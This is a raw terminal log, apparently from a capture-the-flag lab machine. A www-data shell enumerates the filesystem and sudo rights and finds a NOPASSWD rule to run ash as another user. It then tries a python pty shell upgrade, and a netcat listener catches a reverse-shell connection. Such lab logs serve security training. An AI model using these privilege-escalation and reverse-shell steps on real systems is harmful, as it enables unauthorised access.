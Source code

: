 $ ls
bin
boot
cdrom
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
swap.img
sys
tmp
usr
var
vmlinuz
vmlinuz.old
$ cd home
$ ls
julian
$ cd julian
l$ ls
/bin/sh: 5: lls: not found
$ cd ..
$ pwd
/home
$ sudo -l
Matching Defaults entries for www-data on client-ctf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on client-ctf:
    (julian) NOPASSWD: /bin/ash
$ sudo ash
sudo: no tty present and no askpass program specified
$ cd ..
$ ./ash
/bin/sh: 11: ./ash: not found
$ sudo ash
sudo: no tty present and no askpass program specified
$ which python 
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")
> 
> 
> kjsdsd
> ^C
➜  zSecurity_Client_CTF nc -lvnp 4443
listening on [any] 4443 ...
connect to [10.8.5.88] from (UNKNOWN) [10.10.34.138] 34488
Linux client-ctf 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
